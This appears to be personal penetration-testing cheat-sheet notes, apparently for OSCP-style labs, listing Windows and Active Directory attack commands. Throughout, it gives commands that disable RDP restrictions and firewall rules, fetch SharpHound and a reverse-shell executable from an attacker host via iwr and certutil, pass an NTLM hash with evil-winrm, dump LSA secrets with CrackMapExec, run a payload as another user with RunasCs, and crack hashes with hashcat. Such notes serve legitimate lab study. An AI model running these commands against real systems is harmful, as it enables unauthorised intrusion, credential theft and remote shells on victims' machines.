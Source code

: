 Windows: 

### open firewall
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Bloodhound 

```
.\Sharphoun.exe -c all,group 

PS C:\Users\marcus> iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass

PS C:\Users\marcus> . .\SharpHound.ps1

PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
```

EVIL-WinRM:

once you login with evil-winrm 

```bash
evil-winrm -i 192.168.173.165 -u 'svc_apache' -H 4FC1682833B24CF2225248D67DF7E618 -e "<kali-path>"

$Evil-WinRM PS C:\> Invoke-Binary

$Evil-WinRM PS C:\> Invoke-Binary <kali-Path> run <paramter> 
```

This will help to connect **`metasploit`** this is userfull

https://github.com/tedchen0001/OSCP-Notes/blob/master/AD.md

### Crackmapexec 

# Crackmapexec
```
crackmapexec smb <target> -u '' -p ''
crackmapexec smb <target> -u '' -p '' --users
crackmapexec smb 192.168.1.0/24 
crackmapexec smb target.txt
crackmapexec smb target.txt -u <usernmae> -p <password>

#extract password policy 
crackmapexec smb target.txt -u <usernmae> -p <password> --pass-pol

#enumarte shares
crackmapexec smb target.txt -u <usernmae> -p <password> --shares

#check for loggedon users 
crackmapexec smb target.txt -u <usernmae> -p <password> --loggedon-users

#extract the NTLM hashes 
crackmapexec smb target.txt -u <usernmae> -p <password>  --lsa

#using hash (. dot means local) 
crackmapexec smb target.txt -u Administrator -H <hash> -d .
```
## Runascs 
If creds are found and already logged into the machine then use this command to login as that user. 

```bash
PS C:\tools> certutil.exe -urlcache -split -f "http://192.168.45.184/rshell.exe" rshell.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
PS C:\tools> .\RunasCs.exe svc_mssql trustno1 "cmd /c c:\tools\rshell.exe"
````

### WPSCAN 

```
wpscan --update --url http://192.168.169.167/ --enumerate ap --plugins-detection aggressive
```

### LFI

check for cron jobs as well 

```
/etc/cron.daily/<file> 
```

### RDP 

```
 xfreerdp /cert-ignore /compression /auto-reconnect  /u:michelle /v:172.16.186.21  /w:1600 /h:1000 /drive:test,/home/offsec/Documents/pen-200
```

### hashcat 
```
sudo hashcat -m 1000 tom_admin.hash /usr/share/wordlists/rockyou.txt --force
```
